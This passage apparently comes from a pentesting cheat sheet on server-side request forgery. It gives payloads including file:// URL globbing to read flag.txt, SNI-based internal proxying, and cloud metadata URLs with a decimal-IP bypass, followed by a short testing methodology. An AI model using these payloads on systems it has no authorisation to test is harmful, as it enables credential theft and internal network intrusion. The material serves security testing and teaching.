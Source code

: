 ## CURL URL Globbing
> file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}

### SSRF via Referrer header & Others and even Host Headers sometimes

## SSRF via SNI data from certificate
```
stream {
    server {
        listen 443;
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;
        ssl_preread on;
    }
}
```
> openssl s_client -connect target.com:443 -servername "internal.host.com" -crlf

## XSS -> SSRF in server-side PDF rendering 
[Server Side XSS -> SSRF in PDF](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.html)

## Escalating the Attack

### Network Scanning
Send requests to endpoints+ports and analyze responses to discover open/closed ports.

### Pull Instance Metadata
Default-accessible API endpoints (unless explicitly blocked):
- AWS: `http://169.254.169.254/latest/meta-data/`
- AWS: `http://2852039166/latest/meta-data/` Decimal Form
- GCP: `https://cloud.google.com/compute/docs/storing-retrieving-metadata/`
https://public.example.com/proxy?url=http://169.254.169.254/latest/meta-data/


### Exploit Blind SSRFs
Limited to:
- Network mapping
- Port scanning
- Service discovery

## Finding Your First SSRF
1. Identify SSRF-prone features
2. Set up callback listener (Netcat, Burp Collaborator, etc.)
3. Test endpoints with internal addresses/listener URL
4. Check for confirming responses or listener hits
5. If protected, attempt bypass techniques
6. Escalate the SSRF
7. Document findings
